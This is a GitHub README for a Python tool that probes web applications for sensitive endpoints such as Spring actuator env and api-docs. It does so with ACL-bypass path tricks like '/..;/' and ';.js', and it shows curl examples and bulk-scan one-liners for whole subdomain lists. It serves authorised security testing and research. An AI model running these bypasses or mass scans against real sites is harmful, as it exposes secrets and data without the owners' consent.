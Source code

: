 [中文版](https://xz.aliyun.com/t/12530)

# endpoints_explore
Endpoints Explorer is a Python script that employs multiple bypass rules to discover sensitive endpoints

## Overview
This script uses the aiohttp library to make asynchronous HTTP requests and scans the endpoints for sensitive information in a highly concurrent manner. The script attempts multiple bypass rules and returns as soon as sensitive information is found.

### Background
![app](https://github.com/wzqs/endpoints_explore/assets/71961807/a04e23a9-391b-48d7-9a6d-49fcc00a877f)

Users access through the app or browser, and the requests may pass through a CDN to a reverse proxy/load balancer. Based on the configuration, the request traffic is forwarded and routed to an API gateway, which then distributes the requests to various application services for processing.

In the backend architecture, each component completes its respective tasks by identifying the URI. If there are any parsing differences or conflicts between any of these components, it can lead to permission bypass vulnerabilities. Common situations include:

- Incompatibilities or conflicts between Tomcat/Jetty and servlet-based filter interceptors.
- Permission verification component and framework handling discrepancies leading to bypass.
- Nginx and Tomcat/Jetty conflicts.
- Improper Nginx configuration.
- Inadequate permission verification.


### Some Cases

```
# Status: 404 Not Found  OR  200
curl "https://127.0.0.1"

# Status: 404 Not Found OR 403 Forbidden
curl "https://127.0.0.1/actuator/env"

# Status: 404 Not Found
curl "https://127.0.0.1/v2/api-docs"

# Status: 404 Not Found
curl "https://127.0.0.1/nothing/actuator/env"
```

when discover the valid path /api/

```
# Status: 403 Forbidden
curl "https://127.0.0.1/api/actuator/env"

# Status: 404
curl "https://127.0.0.1/api/v2/api-docs"

# Status: 403
curl "https://127.0.0.1/api/users/query"

Response: {"message": "forbidden"}
```

to use some characters to bypass ACL

```
# Success
curl "https://127.0.0.1/api/..;/actuator;aaaa/env;.js"

# Success
curl "https://127.0.0.1/api/..;/v2/api-docs"

# Success
curl "https://127.0.0.1//api;/users/query"

Response: {"code":200,"status":0,"message":"SUCCESS","data":[{"users":"...
```


### Recommended Reading:

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://xz.aliyun.com/t/7544
- https://tttang.com/archive/1592/
- https://joychou.org/web/security-of-getRequestURI.html



## Features
- Tests with bypass rules(`/..;/`,`/;/`,`/;js/`,`/../`,`(double)urlencode` etc.)
- Performs highly concurrent scanning with asynchronous HTTP requests
- Supports checking if paths exist before scanning
- Filtered output for similar content


## Usage
First, you need to install the Python libraries that this script depends on, which can be installed with the following command:
```
pip install aiohttp asyncio colorama
```

Then, you can run this script with command-line arguments. Here is the basic usage of the script:
```
python3 endpoints_explorer.py <base_url> <normal_paths_dict> <sensitive_files_dict> [-c <concurrency>] [-v] [-e]
```
Here is a detailed explanation of the parameters:

- base_url: The base URL to scan.
- normal_paths_dict: The path to the normal paths dictionary.
- sensitive_files_dict: The path to the sensitive files dictionary.
- -c, --concurrency: The concurrency level, default is 5.
- -v, --verbose: Enable verbose output.
- -e, --check-existence: Check if the paths exist before scanning.

example:

```
$ cat sensitive_files_dict.txt

/actuator/env
/env
```
It's worth noting that the normal_paths_dict can be collected from active or passive crawling methods. This largely depends on the capabilities of your crawling tools and is not covered by the functionality of this script.

```
$ cat normal_paths_dict.txt

/api/
/manage/
```
screenshot:

![image](https://github.com/wzqs/endpoints_explore/assets/71961807/3556e555-18fd-4c5d-959c-fa7ab679f833)


### Tips
Although the script does not directly support multi-URL scanning, you can use it in conjunction with other security tools.

- Bulk scanning for sensitive information on live URLs
```
cat urls_list.txt | httpx -silent | parallel -j 50 -- python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```
- Automatically scan for sensitive information on live subdomains
```
subfinder -d example.com -silent | httpx -silent | xargs -I {} python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```

In a sense, this script serves as a permission bypass tool. 

### Notes

Please note that while the code has been thoroughly tested, there may be potential bugs and inaccuracies. The path existence checks are not foolproof and the scanning speed is influenced by factors like your own system, the target server, and network conditions. Be aware that high concurrency might impact the server's performance. Always ensure that you have proper authorization before initiating any scans to avoid legal or ethical issues. Use responsibly.

### TODO
- add more headers to requests to bypass rules
- generate the normal_paths_dict rules based on the domain
- filter 30x url

## Disclaimer
This script is intended only for lawful, authorized security testing activities and must not be used for any illegal activities. Users are responsible for all consequences of using this script.

## Thanks

- [chatgpt](https://chat.openai.com/)
- https://github.com/ldbfpiaoran/springboot-acl-bypass
- https://github.com/projectdiscovery/pdtm
